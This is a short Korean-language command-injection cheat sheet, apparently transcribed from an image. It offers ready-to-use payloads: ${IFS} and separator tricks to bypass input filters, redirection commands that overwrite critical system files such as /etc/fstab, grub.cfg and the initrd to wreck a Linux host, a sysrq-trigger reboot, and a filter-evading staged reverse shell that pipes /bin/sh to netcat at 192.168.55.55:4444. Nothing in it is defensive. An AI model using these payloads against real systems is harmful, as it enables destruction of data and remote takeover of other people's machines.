 # COMMAND INJECTION
공백 우회  
|/usr/bin/touch${IFS}/opt/test_injection  

---------------------------------------------------
and, or ,; 우회  

구문 : `id>/opt/test_injection`  

--------------------------------------
라다이렉션만을 이용하여 시스템 파괴  

id>/lib/modules/*/kernel/drivers/usb/storage  
id>/etc/fstab  
id>/etc/mtab  
id>/etc/inittab  
id>/boot/grub/grub.cfg  
id>/boot/initrd.img-$(uname -r)  
id>/etc/systemd/  
echo 'b'>/proc/sysrq-trigger  
<<<b>/proc/sysrq-trigger  
root일 경우만 덮어씌울수있음.  

--------------------------------------------  
;sleep 5 # 해당 명령어가 먹힐 경우 리버스tcp 가능  
;mkfifo${IFS}/opt/f;  
;printf${IFS}'nc\x20192.168.55.55\x204444'>/opt/b;  
;printf${IFS}'\x20</opt/f\x7Cbin/sh>/opt/f'>/opt/c;  
;cat${IFS}/opt/b${IFS}/opt/c>/opt/t;  
;chmod${IFS}777${IFS}/opt/t;  
;./opt/t;  

